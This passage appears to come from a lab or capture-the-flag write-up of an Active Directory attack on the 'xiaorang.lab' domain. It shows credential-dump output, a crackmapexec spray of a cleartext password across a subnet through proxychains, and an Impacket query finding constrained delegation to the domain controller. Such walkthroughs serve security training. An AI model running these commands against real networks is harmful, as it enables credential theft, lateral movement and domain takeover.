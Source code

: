 ```shell
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2023/7/30 16:21:58
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : win2016$
	 * Domain   : XIAORANG.LAB
	 * Password : (null)
	ssp :	
	credman :	
```

crackmapexec

```shell
$ proxychains crackmapexec smb -u Aldrich -p 'P@ssw0rd' -d xiaorang.lab 172.22.8.0/24
[proxychains] config file found: /usr/local/etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.dylib
[proxychains] DLL init: proxychains-ng 4.16-git-13-g133e06b
SMB         172.22.8.46     445    WIN2016          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN2016) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.18     445    WIN-WEB          [*] Windows Server 2016 Datacenter 14393 x64 (name:WIN-WEB) (domain:xiaorang.lab) (signing:False) (SMBv1:True)
SMB         172.22.8.15     445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.8.31     445    WIN19-CLIENT     [*] Windows 10.0 Build 17763 x64 (name:WIN19-CLIENT) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.8.46     445    WIN2016          [+] xiaorang.lab\Aldrich:P@ssw0rd
SMB         172.22.8.18     445    WIN-WEB          [-] xiaorang.lab\Aldrich:P@ssw0rd STATUS_LOGON_FAILURE
SMB         172.22.8.15     445    DC01             [+] xiaorang.lab\Aldrich:P@ssw0rd
SMB         172.22.8.31     445    WIN19-CLIENT     [+] xiaorang.lab\Aldrich:P@ssw0rd
```

查询域委派关系

```shell
$ proxychains findDelegation.py xiaorang.lab/Aldrich:'P@ssw0rd' -dc-ip 172.22.8.15 -target-domain xiaorang.lab

Impacket v0.10.1.dev1+20230718.100545.fdbd2568 - Copyright 2022 Fortra

AccountName    AccountType  DelegationType                      DelegationRightsTo
-------------  -----------  ----------------------------------  --------------------------------------------------
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01.xiaorang.lab/xiaorang.lab
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01.xiaorang.lab
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01.xiaorang.lab/XIAORANG
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01/XIAORANG
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01.xiaorang.lab/DomainDnsZones.xiaorang.lab
```